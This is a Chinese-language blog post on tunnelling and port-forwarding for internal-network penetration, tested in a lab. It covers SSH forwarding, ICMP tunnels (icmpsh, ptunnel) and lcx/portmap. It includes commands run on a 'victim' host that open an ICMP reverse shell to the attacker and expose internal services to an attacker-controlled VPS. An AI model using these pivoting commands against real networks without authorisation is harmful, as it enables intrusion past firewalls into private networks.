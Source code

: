 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: img/wenzhang/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![BC9NB4.png](https://s1.ax1x.com/2020/10/21/BC9NB4.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![BC9cuD.png](https://s1.ax1x.com/2020/10/21/BC9cuD.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![BCC8IA.png](https://s1.ax1x.com/2020/10/21/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![BCPky8.png](https://s1.ax1x.com/2020/10/21/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![BCPFQf.png](https://s1.ax1x.com/2020/10/21/BCPFQf.png)



![BCPiSP.png](https://s1.ax1x.com/2020/10/21/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![BpSU2D.png](https://s1.ax1x.com/2020/10/20/BpSU2D.png)



流量情况

![BpSN8O.png](https://s1.ax1x.com/2020/10/20/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![BCL1Re.png](https://s1.ax1x.com/2020/10/21/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![BCTpsx.png](https://s1.ax1x.com/2020/10/21/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![BCbeSJ.png](https://s1.ax1x.com/2020/10/21/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![BCLYqI.md.png](https://s1.ax1x.com/2020/10/21/BCLYqI.md.png)



访问本地的6000 端口

![BCL3xH.png](https://s1.ax1x.com/2020/10/21/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![BpWNbd.png](https://s1.ax1x.com/2020/10/20/BpWNbd.png)



仅本地可以访问

![BpWaVA.png](https://s1.ax1x.com/2020/10/20/BpWaVA.png)



公网ip 无法访问

![BpWtDH.png](https://s1.ax1x.com/2020/10/20/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![BpWYKe.md.png](https://s1.ax1x.com/2020/10/20/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![BpfPqH.png](https://s1.ax1x.com/2020/10/20/BpfPqH.png)



![BpWGvD.png](https://s1.ax1x.com/2020/10/20/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

[![B9RC28.png](https://s1.ax1x.com/2020/10/21/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![B9sgPO.png](https://s1.ax1x.com/2020/10/21/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![B9sDq1.png](https://s1.ax1x.com/2020/10/21/B9sDq1.png)



受害内网服务

![B9sya6.png](https://s1.ax1x.com/2020/10/21/B9sya6.png)



被映射到自己vps 8008端口

![B9ssVx.png](https://s1.ax1x.com/2020/10/21/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![image-20201021102744080](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20201021102744080.png)

